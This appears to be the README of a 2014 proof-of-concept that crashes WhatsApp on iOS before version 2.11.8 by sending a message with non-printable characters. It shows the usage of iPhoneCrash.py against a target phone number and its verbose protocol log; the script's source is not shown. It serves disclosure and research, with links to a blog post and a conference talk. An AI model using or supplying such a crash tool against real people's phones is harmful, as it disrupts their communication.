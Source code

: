 # WhatsApp < v2.11.7 Remote Crash

**Product**: WhatsApp  
**Vendor Homepage**: http://www.whatsapp.com  
**Vulnerable Version(s)**: 2.11.7 and prior on iOS    
**Tested on**: WhatsApp v2.11.7 on iPhone 5 running iOS 7.0.4  
**Solution Status**: Fixed by Vendor on v2.11.8  
**Date**: 8/04/2014  
  
**Authors**:

 * **Jaime Sánchez** ([@segofensiva](https://twitter.com/segofensiva "@segofensiva"))
 ```jsanchez (at) seguridadofensiva.com```
 * **Pablo San Emeterio** ([@psaneme](https://twitter.com/psaneme "@psaneme"))
 ```psaneme (at) gmail.com```
  
- - -

Custom message with non-printable characters will crash any **WhatsApp** client < v2.11.7 for **iOS**.

##  CONFIGURATION FILE
It uses Yowsup library, that provides us with the capabilities of registration, reading/sending messages, and even engaging in an interactive conversation over WhatsApp protocol.

You'll need to use your own Your configuration file. It should contain info about your login credentials to Whatsapp. This typically consist of 3 fields:

* **phone**:	Your full phone number including country code, without '+' or '00'
* **id**:		This field is used in registration calls (-r|-R|-e), and for login if you are trying to use an existing account that is setup on a physical device. Whatsapp has recently deprecated using IMEI/MAC to generate the account's password in updated versions of their clients. Use --v1 switch to try it anyway. Typically this field should contain the phone's IMEI if your account is setup on a Nokia or an Android device, or the phone's WLAN's MAC Address for iOS devices. If you are not trying to use existing credentials	or want to register, you can leave this field blank or set it to some random text.
* **password**:	Password to use for login. You obtain this password when you register using Yowsup or on mobile devices

## USAGE
Enter the phone number to send the custom crafted messages:
```
$ python iPhoneCrash.py 34XXXXXXXXX
Connecting to c2.whatsapp.net
Authed 34XXXXXXXXX
Sent message
```

You can also increse the level of verbosity:
```
$ python iPhoneCrash.py 34XXXXXXXXX -v
YowsupConnectionManager:	>>>>>>>>    AUTH CALLED
BinTreeNodeReader:	Reader init
Connecting to c2.whatsapp.net
WAuth:	Yowsup WAUTH-1 INIT
WAuth:	Starting stream
WAuth:	Sending Features
BinTreeNodeWriter:	Outgoing
BinTreeNodeWriter:	
<stream:features>
    <receipt_acks>
    </receipt_acks>
    <w:profile:picture type="all">
    </w:profile:picture>
    <w:profile:picture type="group">
    </w:profile:picture>
    <notification type="participant">
    </notification>
    <status>
    </status>
</stream:features>

WAuth:	Sending Auth
BinTreeNodeWriter:	Outgoing
BinTreeNodeWriter:	
<auth xmlns="urn:ietf:params:xml:ns:xmpp-sasl" user="34XXXXXXXXX" mechanism="WAUTH-1">
</auth>

WAuth:	Read stream start
WAuth:	Read features and challenge
BinTreeNodeReader:	Incoming
BinTreeNodeReader:	
<stream:features>
<receipt_acks>
</receipt_acks>
<w:profile:picture type="all">
</w:profile:picture>
</stream:features>

WAuth:	GOT FEATURES !!!!
BinTreeNodeReader:	Incoming
BinTreeNodeReader:	
<challenge xmlns="urn:ietf:params:xml:ns:xmpp-sasl">
...</challenge>

WAuth:	GOT CHALLENGE !!!!
WAuth:	Sending Response
BinTreeNodeWriter:	Outgoing
BinTreeNodeWriter:	
<response xmlns="urn:ietf:params:xml:ns:xmpp-sasl">
...</response>

WAuth:	Read success
BinTreeNodeReader:	Incoming
BinTreeNodeReader:	
<success status="active" kind="free" xmlns="urn:ietf:params:xml:ns:xmpp-sasl" creation="1358365985" t="1397399145" expiration="1421437985">...</success>

WAuth:	Login Status: success
WAuth:	Expires: 1421437985
WAuth:	Account type: free
WAuth:	Account status: active
Authed  34XXXXXXXXX
BinTreeNodeWriter:	Outgoing
BinTreeNodeWriter:	
<message to="34XXXXXXXXX@s.whatsapp.net" type="chat" id="XXXXXXXXXX-X">
<x xmlns="jabber:x:event">
<server>
</server>
</x>
<body>
����</body>
</message>

Sent message
```

## MORE INFO
Get more info in my blog post:
```
 	http://www.seguridadofensiva.com/2014/04/crash-en-whatsapp-para-iphone-en-versiones-inferiores-a-2.11.7.html
```

Or check the slides of the research / talk at RootedCON 2014:
```
    http://www.slideshare.net/segofensiva/whatsapp-mentiras-y-cintas-de-video-rootedcon-2014
```